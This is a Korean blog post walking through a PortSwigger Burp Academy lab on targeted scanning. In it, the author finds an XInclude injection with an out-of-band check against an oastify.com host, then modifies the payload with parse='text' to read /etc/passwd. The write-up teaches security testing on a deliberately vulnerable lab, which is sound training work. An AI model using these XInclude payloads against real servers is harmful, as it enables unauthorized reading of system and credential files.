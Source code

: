 ```yaml
---
layout: post
title: "Burp Academy-필수스킬: Discovering vulnerabilities quickly with targeted scanning"
categories: [보안취약점, Burp Academy]
tags: [보안취약점, Burp Academy, Essential Skills]
toc: true
last_modified_at: 2024-12-10 09:33:00 +0900
---
```


# 개요
- 랩을 푸는데 있어서 필수적인 스킬을 배운다. 
- 문제 주소: https://portswigger.net/web-security/essential-skills/using-burp-scanner-during-manual-testing/lab-discovering-vulnerabilities-quickly-with-targeted-scanning
- 취약점 설명페이지: https://portswigger.net/web-security/essential-skills
- 난이도: PRACTITIONER (보통)


# 문제 개요
- 이 랩은 서버의 임의의 파일을 읽을 수 있는 취약점을 포함하고 있다. 
- 랩을 풀러면 /etc/passwd의 컨텐츠를 10분 이내에 얻어내라. 
- 시간제한이 있으므로 Burp Scanner 를 사용하는 것을 추천한다. 사이트 전체를 스캔하는 것은 시간이 걸리므로, 당신의 직관을 사용해서 취약한 엔드포인트를 식별하고, 그 엔드포인트에 대해 특정 요청을 보낸다. Burp가 공격가능한 취약점(attack vector)을 찾아주면, 스스로 exploit할 수 있는 방법을 찾으라. 

```
This lab contains a vulnerability that enables you to read arbitrary files from the server. To solve the lab, retrieve the contents of /etc/passwd within 10 minutes.

Due to the tight time limit, we recommend using Burp Scanner to help you. You can obviously scan the entire site to identify the vulnerability, but this might not leave you enough time to solve the lab. Instead, use your intuition to identify endpoints that are likely to be vulnerable, then try running a targeted scan on a specific request. Once Burp Scanner has identified an attack vector, you can use your own expertise to find a way to exploit it.
```

# 풀이
1. 랩을 살펴보니 `POST /product/stock` 엔드포인트가 있었다. 의심스러우므로 여기를 대상으로 모든 체크를 돌려봤다. HTTP 요청 탭에서 마우스 오른쪽 버튼을 누르고 스캔메뉴를 선택해서 스캔을 실시한다. 

2. 결과는 다음과 같았다. `Out-of-band resource load(HTTP)` 취약점을 발견해주었다. 

![](/images/burp-academy-essential-1-3.png)

페이로드를 디코딩해보면 다음과 같다. href에 지정된 URL로 접속이 발생했다는 지적이다. 

```xml
<hmi xmlns:xi="http://www.w3.org/2001/XInclude"><xi:include href="http://kaysdz7n2jb6pw6it6gwlgdolfr9fz30rsei27.oastify.com/foo"/></hmi>
```

3. 페이로드를 다음과 같이 변경해본다. XXE 인젝션 랩에서 몇번 사용했었다. 

```xml
<hmi xmlns:xi="http://www.w3.org/2001/XInclude"><xi:include href="file:///etc/passwd"/></hmi>
```

4. 그런데 테스트해보면  다음과 같이 `Content is not allowed in prolog` 라는 에러를 돌려준다. 구글링해보면 XML을 import/export 할 때 인코딩이 맞지 않을 때 발생하는 에러라는 것을 알 수 있다. 

![](/images/burp-academy-essential-1-1.png)


5. 페이로드의 inlcude 부분에 parse="text" 를 추가한다. 이러헥 하면 XML이 아니라 text로 인식하는 것 같다. 이렇게 하면 /etc/passwd 파일의 내용을 돌려준다. 

```xml
<hmi xmlns:xi="http://www.w3.org/2001/XInclude"><xi:include parse="text" href="file:///etc/passwd"/></hmi>
```

![](/images/burp-academy-essential-1-2.png)

6. 랩이 풀렸다. 

![](/images/burp-academy-essential-1-success.png)


# 정리
이번 랩에는 10분이라는 시간제한이 있었다. 시간 내에 풀기 위해서는 취약해 보이는 엔드포인트를 골라서 이 엔드포인트에만 스캔을 실시할 필요가 있었다. 이 테크닉은 앞으로도 자주 쓰이므로 확실히 기억해두자. 
